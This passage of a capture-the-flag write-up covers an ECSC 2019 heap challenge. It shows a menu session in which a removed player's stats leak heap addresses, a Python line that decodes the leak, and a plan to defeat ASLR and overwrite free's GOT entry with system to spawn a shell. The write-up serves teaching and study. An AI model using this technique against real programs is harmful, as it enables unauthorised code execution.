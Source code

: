 ```
Player at index 0 is now selected!
Name: Test
- Pwn:        1
- Crypto:     2
- Web:        3
- Stega:      4
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 5
Enter the index of the player you would like to remove: 0
[*] Player at index 0 has been removed from the team
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 2
Name: 
- Pwn:        -1481538944
- Crypto:     22081
- Web:        -1481539568
- Stega:      22081
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
```

The value in the skill values are leaked adressses from the heap.
```python
hex(struct.unpack("<Q", struct.pack("<i", -1481538944) + struct.pack("<i", 22081))[0])
#'0x5641a7b18280'
```

Now that we have found the vulnerability, we need to exploit it.

## Exploitation

As seen with `checksec`, there is PIE, so we first need to bypass ASLR. Once we get the address of libc and the program, we can replace the GOT address of free by system and execute `system("/bin/sh")`.


[heap]: 0x000055f3867ff330│+0x0330: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000
[heap]: 0x000055f3867ff338│+0x0338: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000